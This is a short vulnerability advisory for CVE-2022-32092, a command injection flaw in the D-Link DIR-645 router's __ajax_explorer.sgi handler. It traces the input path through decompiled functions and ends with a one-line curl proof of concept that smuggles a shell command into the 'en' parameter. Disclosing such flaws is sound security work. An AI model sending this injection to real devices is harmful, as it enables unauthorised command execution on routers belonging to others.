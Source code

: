 Vendor of the products:D-Link

Reported by: 　　　WangJincheng(wjcwinmt@outlook.com) && FeiXincheng(FXC030618@outlook.com) && ShaLetian(ltsha@njupt.edu.cn) from X1cT34m

Affected products:D-Link DIR-645 <= v1.03

Vendor Homepage:  https://www.dlink.com/en/consumer

Vendor Advisory:  https://tsd.dlink.com.tw/ddgo

CVE_ID:CVE-2022-32092


# summarize

`D-Link DIR-645` was discovered to contain a command injection vulnerability when operate the file `__ajax_explorer.sgi`. This vulnerability allows attackers to execute arbitrary commands via the `QUERY_STRING` parameter.

# Vulnerability description

We can see that the os will get `QUERY_STRING` in `scandir_main`, and pass it to `sub_410AD4`

![image-20220316191407126](https://github.com/fxc233/iot-vul/blob/main/D-Link/DIR-645/img/1.png)

In `sub_410AD4`, it calls `sub_410434`

![image-20220316191407126](https://github.com/fxc233/iot-vul/blob/main/D-Link/DIR-645/img/2.png)

In `sub_410434`, it contains a command injection.

![image-20220316191407126](https://github.com/fxc233/iot-vul/blob/main/D-Link/DIR-645/img/3.png)

before the attack

![image-20220316191407126](https://github.com/fxc233/iot-vul/blob/main/D-Link/DIR-645/img/4.png)

after the attack

![image-20220316191407126](https://github.com/fxc233/iot-vul/blob/main/D-Link/DIR-645/img/5.png)

# poc

	curl "http://192.168.0.1/portal/__ajax_explorer.sgi?action=umnt&path=path&where=here&en=;echo%20X1cT34mpwner%20>FXC;"
